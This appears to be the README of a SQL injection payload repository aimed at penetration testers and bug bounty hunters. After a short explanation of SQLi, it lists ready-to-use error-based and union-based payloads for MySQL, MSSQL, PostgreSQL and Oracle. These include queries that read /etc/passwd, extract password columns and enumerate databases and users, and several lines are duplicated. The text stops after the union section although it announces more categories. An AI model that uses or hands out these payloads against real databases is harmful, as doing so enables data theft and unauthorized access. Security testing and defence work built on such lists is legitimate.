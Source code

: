 # SQL Injection Payloads Repository

Welcome to the **SQL Injection Payloads Repository** — a comprehensive collection of SQLi payloads designed for security researchers, penetration testers, and bug bounty hunters. This repository aims to provide an extensive range of payloads for various SQL injection techniques to help identify and exploit vulnerabilities effectively.

## 🚀 What is SQL Injection?
SQL Injection (SQLi) is a web security vulnerability that allows attackers to manipulate SQL queries by injecting malicious SQL code. It can result in data theft, unauthorized access, or even complete database compromise.

## 📂 Payload Categories
This repository contains payloads for different types of SQL injection attacks:

- **Error-Based SQLi**
- **Union-Based SQLi**
- **Boolean-Based Blind SQLi**
- **Time-Based Blind SQLi**
- **Out-of-Band (OOB) SQLi**
- **Stored Procedure SQLi**
- **Second-Order SQLi**
- **Stacked Queries SQLi**
- **WAF Bypass Techniques**
- **DNS Exfiltration SQLi**
- **Hybrid SQLi Payloads**
- **Comment-Based SQLi**

---

## 📋 Error-Based SQLi Payloads

### MySQL
- `' OR 1=1#`
- `' UNION SELECT 1,@@version#`
- `' UNION SELECT null,@@datadir#`
- `' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT DATABASE())))#`
- `' AND UPDATEXML(1,CONCAT(0x7e,(SELECT USER())),1)#`
- `' OR 1=1 LIMIT 1#`
- `' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL#`
- `' UNION SELECT table_name FROM information_schema.tables#`
- `' AND (SELECT COUNT(*) FROM mysql.user)#`
- `' AND EXP(~0)#`

### MSSQL
- `' UNION SELECT @@version--`
- `' UNION SELECT DB_NAME()--`
- `' UNION SELECT CAST(DB_NAME() AS VARCHAR(4000))--`
- `' AND 1=CONVERT(int,(SELECT @@version))--`
- `' AND 1=CONVERT(int,(SELECT SYSTEM_USER))--`
- `' OR 1=CONVERT(int,(SELECT host_name()))--`
- `' UNION SELECT name FROM sys.databases--`
- `' UNION SELECT name FROM master.sys.databases--`
- `' UNION SELECT name FROM sysobjects WHERE xtype='U'--`
- `' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL--`

### PostgreSQL
- `' UNION SELECT version();--`
- `' UNION SELECT current_database();--`
- `' AND 1=CAST(version() AS INTEGER)--`
- `' AND 1=CAST(current_database() AS INTEGER)--`
- `' AND 1=CAST(current_user AS INTEGER)--`
- `' UNION SELECT table_name FROM information_schema.tables--`
- `' UNION SELECT table_catalog FROM information_schema.tables--`
- `' UNION SELECT pg_sleep(10)--`
- `' UNION SELECT pg_read_file('/etc/passwd',0,100)--`
- `' AND (SELECT pg_sleep(5))--`

### Oracle
- `' UNION SELECT banner FROM v$version--`
- `' AND 1=(SELECT 1 FROM DUAL WHERE 1=1)--`
- `' UNION SELECT table_name FROM all_tables WHERE ROWNUM=1--`
- `' UNION SELECT sysdate FROM dual--`
- `' AND 1=(SELECT TO_CHAR(SYSDATE, 'YYYY-MM-DD'))--`
- `' UNION SELECT username FROM all_users--`
- `' UNION SELECT table_name FROM all_tables WHERE ROWNUM=1--`
- `' UNION SELECT banner FROM v$version WHERE ROWNUM=1--`
- `' AND (SELECT COUNT(*) FROM dba_users)--`
- `' UNION SELECT user FROM dual--`

---

# Union-Based SQL Injection Payloads

## 📋 Union-Based SQLi Payloads

### MySQL
- `' UNION SELECT 1,2,3--`
- `' UNION SELECT NULL,NULL,NULL--`
- `' UNION SELECT 1,2,3,4,5,6,7--`
- `' UNION SELECT database(),user(),version()--`
- `' UNION SELECT table_name FROM information_schema.tables--`
- `' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'--`
- `' UNION SELECT @@datadir,@@hostname,@@port--`
- `' UNION SELECT 1,CONCAT(user(),0x3a,database()),3,4--`
- `' UNION SELECT LOAD_FILE('/etc/passwd')--`
- `' UNION SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata--`

### MSSQL
- `' UNION SELECT NULL,NULL,NULL--`
- `' UNION SELECT @@version,db_name(),system_user--`
- `' UNION SELECT table_name FROM information_schema.tables--`
- `' UNION SELECT name FROM sysobjects WHERE xtype='U'--`
- `' UNION SELECT name FROM syscolumns WHERE id=OBJECT_ID('users')--`
- `' UNION SELECT top 1 name FROM sys.tables--`
- `' UNION SELECT host_name(),original_login(),session_user--`
- `' UNION SELECT 1,2,3,4,5,6--`
- `' UNION SELECT CAST((SELECT password FROM dbo.users WHERE id=1) AS VARCHAR)--`
- `' UNION SELECT name FROM master.dbo.sysdatabases--`

### PostgreSQL
- `' UNION SELECT version(),current_database(),current_user--`
- `' UNION SELECT NULL,NULL,NULL--`
- `' UNION SELECT table_name FROM information_schema.tables--`
- `' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'--`
- `' UNION SELECT pg_sleep(10)--`
- `' UNION SELECT pg_read_file('/etc/passwd',0,100)--`
- `' UNION SELECT string_agg(column_name, ',') FROM information_schema.columns WHERE table_name='users'--`
- `' UNION SELECT 1,2,3,4,5,6--`
- `' UNION SELECT pg_database_size('postgres')--`
- `' UNION SELECT pg_table_size('users')--`

### Oracle
- `' UNION SELECT banner FROM v$version--`
- `' UNION SELECT table_name FROM all_tables WHERE ROWNUM=1--`
- `' UNION SELECT sysdate FROM dual--`
- `' UNION SELECT username FROM all_users--`
- `' UNION SELECT table_name FROM all_tables WHERE ROWNUM=1--`
- `' UNION SELECT banner FROM v$version WHERE ROWNUM=1--`
- `' UNION SELECT user FROM dual--`
- `' UNION SELECT name FROM v$database--`
- `' UNION SELECT column_name FROM all_tab_columns WHERE table_name='USERS'--`
- `' UNION SELECT (SELECT listagg(column_name, ',') WITHIN GROUP (ORDER BY column_name) FROM all_tab_columns WHERE table_name='USERS') FROM dual--`


---



